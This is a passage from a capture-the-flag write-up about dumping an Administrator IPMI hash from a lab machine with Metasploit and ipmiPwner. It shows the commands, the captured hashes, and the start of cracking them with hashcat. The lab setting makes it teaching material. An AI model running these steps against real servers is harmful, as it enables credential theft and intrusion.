 
I could try asking for other names if I wanted to as well, but I’ll start with
the recommended list.

It returns one hash:

    
    
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
    
    [+] 10.10.11.124:623 - IPMI - Hash found: Administrator:bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    

#### With ipmiPwner

[ipmiPwner](https://github.com/c0rnf13ld/ipmiPwner) is a Python script that
can do similar attacks. I’ll clone the repo, and then run `requirements.sh` to
get my system prepped.

By default it will try the same list as MSF:

![image-20220331100028573](https://0xdfimages.gitlab.io/img/image-20220331100028573.png)

Running it with only the `--host [ip]` argument returns the hash for
Administrator:

    
    
    oxdf@hacky$ sudo python3 ipmipwner.py --host 10.10.11.124
    [*] Checking if port 623 for host 10.10.11.124 is active
    [*] Using the list of users that the script has by default
    [*] Brute Forcing
    [*] Number of retries: 2
    [!] Wrong username ADMIN
    [!] Wrong username admin
    [*] The username: Administrator is valid
    [*] The hash for user: Administrator
       \_ $rakp$a4a3a2a0820a0000f793de846396a33033290affdcb188a1b6db9aaa178ce75290b2fd6cfd76bac7a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$ac4f0b33225a3d1d4c5b7e423c094ef72bc4997d
    

The hash format is a bit different, and doesn’t match anything `hashcat` knows
of. Still, but removing the leading `$rakp$` and replacing the other `$` with
`:` generates the same format as MSF. Because this isn’t really a hash, but a
challenge and response, it makes sense that the hash for the same user can
change based on how it’s collected.

### Crack IPMI Hash

The hash above can be taken as that entire line and passed to `hashcat` (using
the `--user` flag because the hash starts with the username), which will
detect the format as mode 7300 and crack the hash very quickly:

    
    